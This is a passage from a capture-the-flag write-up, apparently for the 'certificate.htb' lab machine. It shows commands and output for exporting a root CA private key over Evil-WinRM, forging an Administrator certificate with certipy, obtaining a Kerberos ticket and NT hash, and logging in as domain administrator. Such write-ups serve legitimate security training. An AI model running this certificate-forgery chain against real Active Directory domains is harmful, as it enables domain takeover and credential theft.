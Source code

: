 ```powershell
Signature matches Public Key
Root Certificate: Subject matches Issuer
Template: CA, Root Certification Authority
Cert Hash(sha1): 2f02901dcff083ed3dbb6cb0a15bbfee6002b1a8
  Key Container = Certificate-LTD-CA
  Unique container name: 26b68cbdfcd6f5e467996e3f3810f3ca_7989b711-2e3f-4107-9aae-fb8df2e3b958
  Provider = Microsoft Software Key Storage Provider
Signature test passed
Enter new password for output file ca_cert.pfx:
Enter new password:
Confirm new password:
CertUtil: -exportPFX command completed successfully.

*Evil-WinRM* PS C:\Users\Ryan.K\Documents> download ca_cert.pfx /home/kali/certificate.htb/ca_cert.pfx

Info: Downloading C:\Users\Ryan.K\Documents\ca_cert.pfx to /home/kali/certificate.htb/ca_cert.pfx

Info: Download successful!
```

With the **root CA certificate** and private key, we can **forge an `Adminstrator` certificate**
```bash
┌──(kali@kali)-[~/certificate.htb]
└─$ sync-ad certipy-ad forge \
    -ca-pfx 'ca_cert.pfx' -upn 'Administrator@certificate.htb' \
    -sid 'S-1-5-21-515537669-4223687196-3249690583-500' -crl 'ldap:///'
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Saving forged certificate and private key to 'administrator_forged.pfx'
[*] Wrote forged certificate and private key to 'administrator_forged.pfx'
```

Now we can authenticate as `Administrator`
```bash
┌──(kali@kali)-[~/certificate.htb]
└─$ sync-ad certipy-ad auth -pfx administrator_forged.pfx -dc-ip 10.10.11.71
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Certificate identities:
[*]     SAN UPN: 'Administrator@certificate.htb'
[*]     SAN URL SID: 'S-1-5-21-515537669-4223687196-3249690583-500'
[*]     Security Extension SID: 'S-1-5-21-515537669-4223687196-3249690583-500'
[*] Using principal: 'administrator@certificate.htb'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'administrator.ccache'
[*] Wrote credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@certificate.htb': <HASH_REDACTED>
```

Login and grab the `root.txt` flag
```bash
┌──(kali@kali)-[~/certificate.htb]
└─$ export KRB5CCNAME=$(pwd)/administrator.ccache

┌──(kali@kali)-[~/certificate.htb]
└─$ sync-ad evil-winrm -i dc01.certificate.htb -r certificate.htb
```
